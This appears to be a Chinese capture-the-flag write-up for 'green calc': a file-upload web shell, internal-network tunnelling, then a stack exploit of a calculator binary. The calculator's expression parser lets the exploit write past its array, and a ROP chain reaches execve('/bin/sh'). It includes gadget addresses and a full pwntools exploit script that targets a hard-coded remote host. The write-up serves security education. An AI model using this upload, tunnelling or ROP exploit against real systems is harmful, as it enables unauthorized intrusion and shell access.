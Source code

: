## 题目

    green calc

## 分值

    300

## 类型

    web综合(pwn)

## 解题思路

显而易见，出题者为了向线上赛致敬，希望大家上传一个green hat。

存在上传漏洞，burp修改文件名，可以上传shell，遍历目录即可看到flag.php的内容，但是你会发现出题人的恶意。

upload中发现一个可执行文件，下载下来，看起来是一道pwn。

上传tunnel到目录，扫描内网，发现一台主机开启了4000端口，显而易见是帽子制作者给大家的礼物，这么显而易见的端口对不对。

`https://github.com/sensepost/reGeorg`

然后就变成了善良而单纯的pwn


提示是*Have you ever use Microsoft calculator?*这种提示，上网找信息能找到一个关于微软计算机开方的问题。题目可能是暗示运算可能存在问题。
首先打开IDA，发现程序大致如下：
![](files_for_writeup/pwnbale-3-01.png)
这里由于提示，我们就尤其关注一下calc的内容
![](files_for_writeup/pwnbale-3-02.png)
会发现开启了栈保护，并且每次都会清空s，
首先是**get_expr**，这个函数会将大部分的不合法字符串过滤掉，只读入+-*/%和所有的数字。
![](files_for_writeup/pwnbale-3-03.png)
（get_expr细节）
init_pool也是一个初始化函数，将一个数组中的数据初始化为0。然后这里尤其关注一下parse_expr，这个函数是一个解析表达式的过程。windows的表达式出错就和这个密切相关，这里进行深入的了解:
![](files_for_writeup/pwnbale-3-04.png)
存在一段可能让人疑惑的语句
```C
if ( (unsigned int)(*(_BYTE *)(i + expr) - 48) > 9 )
```
要将大于9（也就是为数字的时候）的过滤掉？仔细观察能够看到发现这里的变量类型为unsigned，也就是无符号的，所以只要小于48（也就是符号范围内）的都会被考虑（之前其他符号已经被过滤了）
明白之后继续看，会发现将单独出现的0都过滤了（防止出现除数为0）
![](files_for_writeup/pwnbale-3-04.png)
这段要是直接理解起来的话意思为
 + 首先从传入的a2(开始为全0)中读取当前的数据v4，之后自己内容自增1
 + 然后以v4为下标，并且将换算得到的数据赋值过去，整体结构是这样的
```
--------------------------------------------------------------------------
|放入了数字个数    |第一个数字  |第二个数字  |......
--------------------------------------------------------------------------
a[0]                a[1]        a[2]       ......
```
数组以头部作为下标。(但是这个形式存在巨大的漏洞，见下分析)
那么现在我们回头看原先的calc函数的内容
![](files_for_writeup/pwnbale-3-06.png)
也就能够明白了:array\_from\_1其实还是array数组，只不过是&array[1]而已，printf的时候，是通过判断array[0]中的数据，来决定自己要输出的内容的位置，从而从array_from_1中选取数据输出。
eval的内容如下
![](files_for_writeup/pwnbale-3-04.png)
根据算法，发现了如下的漏洞:
 + 由于算法eval的运算法则为【使用当前的第一位array[0]作为下标进行取值】，所以当我们使用形如"\*400","-300"的写法的时候，**会将array[0]作为运算左值，array[1]作为运算右值，从而可以做到泄漏信息的目的**已知calc中的数组的起始地址为ebp-1440，而ebp-0xc处存放了一个canary，于是计算得知(1440 - 0xc)/4=357(除以4是因为一个int的大小为4)，于是当array[0]的值为358的时候，此时便会取到canary的具体值"0xdce1ae00"
 + 考虑到有输入过滤，所以首先排除stack中存入shellcode的想法，然后**考虑ret2lib的方法，所以要检查此时是否存在动态连接：**
   ![](files_for_writeup/pwnbale-3-07.png)
   从图上可以发现，没有动态连接的部分，说明此程序是静态编译的，不能使用ret2lib的方法。但是相对的，就可以找到ROPgadget（也就是所谓的【跳板门】）从而构造execve("\bin\sh")
 + 关键的注入其实还是利用之前提到的泄漏的问题，如果我们通过+300能够**修改array[0]的值为符号后面指定的数字**那么+300+1的话就能够**通过修改了array[0]，从而在eval里面可以对特定的地址内容进行修改**,这样就完成了注入。
  为了测试是否能够注入成功，我们首先尝试导出返回值的内容:
  ![](files_for_writeup/pwnbale-3-08.png)
  可以看到，此时的字符串的起始地址为:ebp-1036,而看到后面取值的时候：
  ![](files_for_writeup/pwnbale-3-09.png)
  此时都为int四字节对其，则此时距离返回值的距离为1440/4=360,而为了能够输出此时的地址，看到printf的输出为
  ![](files_for_writeup/pwnbale-3-10.png)
  也就是此时距离返回值地址为361(包括一个ebp),我们直接输入*362或者+361便可导出数据。测试成功后，接下来尝试修改一下返回值地址，将其修改成目的地址0x0804947B，看看看能否成功：
  ![](files_for_writeup/pwnbale-3-11.png)
  成功了！这种修改甚至绕开了canary，这就更加的方便。接下来我们只要构造ROPgadget即可：
  最终目的是 构建execve('\bin\sh')，所以我们的目的自然是【产生int 0x80中断并且此时ebx必须指向执行的程序位置，也就是/bin/sh】，那么我们的手段应该是
 + 将eax的值最终提升为11
 + 往栈中写入数据'\bin\sh'
 + 将ebx的值指向一个栈的位置
 + 将ecx/edx的值进行置零（？）
 + 执行int 80
  为了实现第一条，首先要能够将eax的值变为0，并且能够立刻返回。这里下载了一个叫ROPgadget的脚本，虽然用着很不方便，但是也找到了一些内容:
```x86asm
    0808F2D3                 xor     eax, eax
    0808F2D5                 retn               ;此处可以将eax值置为0

    080908D0                 mov     eax, 7
    080908D5                 retn               ;此处可以增加eax的值，从而减少inc的次数

    0807cb7e                 nop  inc eax ; ret;可以通过反复跳转此步，将eax的值提升为11
```
然后为了实现能够将数据字符串放入栈中，我们可以直接同过往其中写入数据的方式，将/bin/sh写入数据栈中，但是此时为了能够让ebx正好指向这个栈的位置，我们需要将这个过程放在最后执行，然后通过寻找pop ebx 的方法将数据的地址放到：
```x86asm
    080701D0                 pop     edx
    080701D1                 pop     ecx
    080701D2                 pop     ebx
    080701D3                 retn
    ;此步骤可以将当前栈中的地址返回给ebx
```
由于此时是打开了ASTL的，所以我们得通过printf来将我们需要的目的数据泄漏才行。由于我们已知栈中的情况为
![](files_for_writeup/pwnbale-3-12.png)
也就是说，此时通过加入数据可以通过返回值指向为0x080701d0,然后将edx，ecx，ebx值修改为我们想要的值（其中ebx的值要在最后计算出来）
然后
```x86asm
    08049a21                 int 0x80；触发中断
```
最后触发这个位置的中断，我们就可以完成我们的攻击。
那么综上所述，我们的栈应该变成如下的样子：
![](files_for_writeup/pwnbale-3-13.png)
然后最后，每次都先获得相关值，通过计算出栈中值和当前值的offset，然后通过下一次输入数据的时候输入【当前地址+offset】完成地址的修改。
测试过程中发现，edx的值不去理会也没有太大问题。
附上代码
```python
#   -*- coding:utf-8
#!usr/bing.env  python
from pwn import *

DEBUG = 0
if DEBUG:
    context.log_level = 'debug'
    context.terminal = ['tmux','splitw','-h']
    ph = process("./calc")
    gdb.attach(ph,'b *0x08049433')
else:
    ph = remote('139.162.123.119',10100)
    # ph = process("./calc")

# array is the offset from the array to get index of stack

array = ['361','362','363','364','365','366','367',
        '368','369','370','371','372','373','360']
"""
array = ['361','362','363','364','365','366','367',
        '368','369','370','371','372','360']
"""
# stack record value that we need to change to

stack = [0x0808f2d3, 0x080908d0, 0x0807cb7e,
        0x0807cb7e, 0x0807cb7e, 0x0807cb7e,
        0x080701d0, 0x0, 0x0,
        0x0, 0x08049a21, u32('/bin'), u32('/sh\0')]
"""
stack = [0x0808f2d3, 0x080908d0, 0x0807cb7e,
        0x0807cb7e, 0x0807cb7e, 0x0807cb7e,
        0x080701d1, 0x0,
        0x0, 0x08049a21, u32('/bin'), u32('/sh\0')]
"""
ebp_offset = 0x10

def getStack():
    s = '+' + array[len(array)-1]
    # get the old ebp
    ph.send(s + '\n')
    num = int(ph.recv(1024))
    num += 0x100000000
    print "receive the ebp is %x and ebx is %x"%(num,num+ebp_offset)
    stack[9] = num + ebp_offset


def writeStack():

    for i in range(len(stack)):
        s = '+' + array[i]
        print "[*] - send " + s

        ph.send(s + '\n')
        num = int(ph.recv(1024))

        offset = stack[i] - num
        print "[*] - receive the %x,offset is %x"%(num, offset)

        if offset<0:
            s_ = s + '-' + str(-offset) + '\n'

        else:
            s_ = s + '+' + str(offset) + '\n'
        print "[*] - and send " + s_
        ph.send(s_)
        value = int(ph.recv(1024))
        if value<0:
            value+=0x100000000
        while value!=stack[i]:
            print "[!] the value is %x"%(value)
            offset = stack[i] - value
            if offset<0:
                ph.send(s + '-' + str(-offset) +'\n')
            else:
                ph.send(s + '+' + str(offset) + '\n')
            print "[!] go on send " + array[i]
            value = int(ph.recv(1024))
            if value<0:
                value+=0x100000000
        print "[!] new value is %x"%value
        print "-----------------------------"

    ph.send("=======================\n")

if __name__ == "__main__":
    print ph.recv(1024)
    getStack()
    writeStack()
    ph.interactive()

```
## **【总结】**

此题的设计告诉我们，即使出题人有多大的恶意，都不能被冲昏头脑，不管对面是不是让你出题的hmsec